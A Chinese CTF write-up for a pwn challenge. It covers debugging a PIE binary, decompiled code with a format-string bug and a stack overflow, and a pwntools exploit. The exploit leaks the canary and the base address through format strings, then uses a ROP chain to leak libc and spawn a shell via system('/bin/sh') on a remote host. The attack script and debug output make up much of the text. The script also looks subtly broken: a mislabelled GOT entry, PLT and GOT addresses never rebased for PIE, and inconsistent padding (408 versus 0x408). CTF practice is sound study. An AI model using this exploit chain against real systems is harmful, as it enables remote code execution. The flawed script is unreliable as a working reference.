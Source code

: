 ## 这也是一道格式化字符串的题，rop，栈溢出

先说一下这道题目的调试，那道题目就开始调试了，发现竟然下不了断点！！！下不了断点可怎么调试啊？？</br>
于是做了以下工作：</br>
（1）刚开始以为是程序格式的问题，因为之前做的题目下载下来的文件格式都是exe可执行格式，这个文件是sharing file，但是可以运行，于是一顿谷歌，也没有找到解决
办法，这个办法无效。</br>
（2）问了同学，说是开了PIE保护的原因，发现ida里打开的程序文件，只有后三个字节的地址（偏移地址），也就是说程序的基地址是不知道的，只要我们找到程序的
基地址，再加上偏移地址就可以调试了。于是谷歌PIE调试下断点，给出了两种方法，一个是用pwndgb调试，b *$rebase(0x相对基址偏移)，如 b *$rebase(0x100)
即可，第二种办法是用命令 ps -aux|grep task_shoppingCart找到该程序的pie，然后根据上一条指令的结果，会有一个pie ID，如6158，进入到该文件下，
/proc/6158/map_files$ ls ，就可以查看程序的基址。但是！！但是！！！两种办法对于这个题目来说都不行！！！</br>
（3）于是有了第三种办法：直接调试 gdb pwn，然后 r ,直接 ctrl + c ,然后输入vmmap就能看到基址！！！</br>

__终于可以调试啦！__

## 做题思路

```c
unsigned __int64 sub_91C()
{
  char buf; // [rsp+7h] [rbp-4E9h]
  ssize_t v2; // [rsp+8h] [rbp-4E8h]
  char s; // [rsp+10h] [rbp-4E0h]
  char v4; // [rsp+D7h] [rbp-419h]
  char v5; // [rsp+E0h] [rbp-410h]
  unsigned __int64 v6; // [rsp+4E8h] [rbp-8h]

  v6 = __readfsqword(0x28u); //canary
  while ( 1 )
  {
    sub_8FD();
    v2 = read(0, &buf, 1uLL);  //读入一个字节（1，2，or 3）
    if ( v2 != 1 )
      break;
    if ( buf == 49 ) //读入的是1
    {
      read(0, &v5, 0x5DCuLL);  //栈溢出
    }
    else
    {
      if ( buf != 50 ) //读入的不是2
        return __readfsqword(0x28u) ^ v6; //出错
      read(0, &s, 0xC8uLL); //读
      v4 = 0;
      if ( strchr(&s, 110) ) //如果S中有/n，就输出nope
      {
        puts("nope");
      }
      else
      {
        printf("Is that it \"", 110LL);
        printf(&s);  //格式化字符串漏洞
        puts("\"?");
      }
    }
  }
  return __readfsqword(0x28u) ^ v6;
}
```

这道题目保护全开，上边已经提到了，开启PIE就不能正常调试，得知道程序基址，然后这道题目还涉及canary和格式化字符串漏洞，很容易想到，用格式化字符串去泄漏canary，以及我们要用的函数地址。
思路：用格式化字符串泄漏canary和read地址，得到libc版本，从而得到system（‘/bin/sh’）地址。

---
调试：
输入
2AAAAAAAA,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx
输出
AAAAAAAA,7fffffffb1d0,7ffff7dd3780,7ffff7b042c0,7ffff7fda700,c,32007ffff7fdb000,1,4141414141414141,786c252c786c252c,786c252c786c252c,786c252c786c252c,786c252c786c252c,786c252c786c252c,786c252c786c252c
查看栈中的内容：
--More--(150/200)
1200| 0x7fffffffdd10 --> 0x19 
1208| 0x7fffffffdd18 --> 0x7ffff7dd2620 --> 0xfbad2887 
1216| 0x7fffffffdd20 --> 0x555555554b44 ("<insert something clever>")
1224| 0x7fffffffdd28 --> 0x7ffff7a7c7fa (<_IO_puts+362>:	cmp    eax,0xffffffff)
1232| 0x7fffffffdd30 --> 0x0 
1240| 0x7fffffffdd38 --> 0x7fffffffdd50 --> 0x7fffffffdd70 --> 0x555555554ac0 (push   r15)
1248| 0x7fffffffdd40 --> 0x5555555547e0 (xor    ebp,ebp)
1256| 0x7fffffffdd48 --> 0xc8d1cdd933276500 
1264| 0x7fffffffdd50 --> 0x7fffffffdd70 --> 0x555555554ac0 (push   r15)
1272| 0x7fffffffdd58 --> 0x555555554aac (mov    eax,0x0)
1280| 0x7fffffffdd60 --> 0x7fffffffde58 --> 0x7fffffffe20a ("/home/hdd/oj/pwni/pwnio")
1288| 0x7fffffffdd68 --> 0x100000000
可以看到在158处就是canary的位置。但是相对于格式化字符串的参数，他在163的位置，因为AAAAAAAA是在栈中第八个显示的，显示在第三的位置，相差5，所以canary的位置=158+5=163.


## 脚本

```python
from pwn import *
from LibcSearcher import LibcSearcher
r= remote("vps1.blue-whale.me" ,19908)
elf=ELF('./pwnio')
#leak canary
r.recvuntil("1, 2, or 3\n")
payload = "2AAAAAAAA%163$p"
r.sendline(payload)
r.recvuntil("AAAAAAAA")
canary=int(r.recvuntil('\n'),16)
print hex(canary)

#leak elf_base
r.recvuntil("1, 2, or 3\n")
payload="2AAAAAAAA%165$p"
r.send(payload)
r.recvuntil("AAAAAAAA")
elf_base=int(r.recvuntil('\n'),16)&0xfffffffffffff000
print hex(elf_base)

#leak read_addr
pop_rdi=elf_base+0xb23
ret_addr=elf_base+0x91C
puts_plt=elf.plt['puts']
read_got=elf.got['puts']
payload='A'*0x408+p64(canary)+'B'*8
payload+=p64(pop_rdi)+p64(read_got)
payload+=p64(puts_plt)
payload+=p64(ret_addr)

r.sendline("1")
r.sendline(payload)
r.sendline("3")
read_addr=u64(r.recvuntil("\n",drop=True).ljust(8,'\x00'))
log.success('read_addr : ' + hex(read_addr))
#read_addr=0x7f1be43c29c0

#leak system_addr and binsh_addr
libc=LibcSearcher('read',read_addr)
libc_base=read_addr-libc.dump('read')
system_addr=libc_base+libc.dump('system')
binsh_addr=libc_base+libc.dump('str_bin_sh')

payload="1"+'A'*408+p64(canary)+"B"*8+p64(system_addr)+p64(ret_addr)+p64(binsh_addr)
r.sendline(payload)
r.sendline('3')
r.sendline("cat flag")
r.interactive()

```

